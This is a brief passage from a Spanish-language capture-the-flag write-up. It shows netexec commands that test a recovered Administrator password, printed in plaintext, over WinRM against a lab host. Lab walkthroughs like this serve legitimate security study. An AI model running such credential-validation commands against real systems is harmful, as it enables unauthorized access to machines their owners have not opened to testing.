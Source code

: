 <figure><img src="../../../../../.gitbook/assets/1009_vmware_e6n2LjCHoV.png" alt=""><figcaption></figcaption></figure>

### Checking Administrator's password with Netexec

Verificaremos que podemos acceder con las credenciales del usuario Administrator al WinRM. Le especificaremos que el domain es un WORKGROUP, sino nos dará error como en el primer comando.

{% code overflow="wrap" %}
```bash
netexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'

netexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1010_vmware_ePbFCIxvF7.png" alt=""><figcaption></figcaption></figure>
